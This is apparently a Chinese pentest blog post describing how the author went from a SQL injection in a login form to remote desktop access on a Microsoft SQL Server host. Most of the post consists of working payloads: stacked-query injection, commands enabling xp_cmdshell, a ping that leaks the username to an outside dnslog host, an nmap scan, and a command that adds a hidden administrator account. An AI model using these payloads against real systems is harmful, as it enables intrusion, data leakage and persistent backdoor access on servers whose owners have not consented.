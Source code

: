 +++
title = "从 SQL Server 注入到 远程连接桌面"
topics = ["Pentest"]
tags = ["pentest"]
description = "从 SQL Server 注入到 远程连接桌面"
date = "2019-06-25T17:01:53+08:00"
draft = false
+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-06-25 14:25:41
 * @LastEditTime: 2019-07-10 19:54:43
 -->

### 0x00 目标情况
* 只有一个登录框

### 0x01 发现注入
简单看了下登陆框，可以爆破用户名

![50](/img/post/Xnip2019-06-25_09-42-33.png)
![50](/img/post/Xnip2019-06-25_09-43-33.png)

加单引号后报错，试了试 and 1=1 确实存在注入

![60](/img/post/Xnip2019-06-25_09-45-03.png)
![50](/img/post/Xnip2019-06-25_09-46-06.png)

### 0x01 进一步测试
尝试得到数据版本: ```admin' and @@version=1--```
![60](/img/post/Xnip2019-06-25_09-49-45.png)

抓包 sqlmap 跑了下发现不行: ```sqlmap -r 1.txt --risk 3 --level 3 --dbms "Microsoft SQL Server" --second-order "http://123.xxx.xxx.180:2001/error.aspx"```

返回: all tested parameters appear to be not injectable，跑不出来，只能手工了

看下能不能多语句执行: ```admin';select convert(int,(select user));--```

结果发现可以执行成功，能进行多语句执行
![60](/img/post/Xnip2019-06-25_09-56-08.png)


### 0x02 尝试多语句执行添加用户
* 查看是否有 xp_cmdshell  
Payload：```admin';if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:5';--```
![60](/img/post/Xnip2019-06-25_10-05-25.png)

* 开启 xp_cmdshell  
Payload：```admin';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;--```
![50](/img/post/Xnip2019-06-25_10-07-41.png)

* 查看 whoami  
Payload：```admin';exec master..xp_cmdshell 'ping %USERNAME%.vxxxx9.ceye.io';--```
![50](/img/post/Xnip2019-06-25_10-10-38.png)
在 dnslog 可以看到是 SYSTEM 权限，可以直接添加用户
![60](/img/post/Xnip2019-06-25_10-16-37.png)

* 添加用户  
看了下端口，3389开着

```bash
➜  sudo nmap -sS -Pn -n -p3389 123.xxx.xxx.180
Password:
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-25 09:30 CST
Nmap scan report for 123.xxx.xxx.180
Host is up.

PORT     STATE    SERVICE
3389/tcp open     ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 2.07 seconds
```

直接添加用户: ```admin';exec master..xp_cmdshell 'net user Guest1 Aa123456. /add & net localgroup administrators Guest1 /add & net user Guest1 /active:yes'--```，尝试登陆
![60](/img/post/Xnip2019-06-25_10-22-58.png)












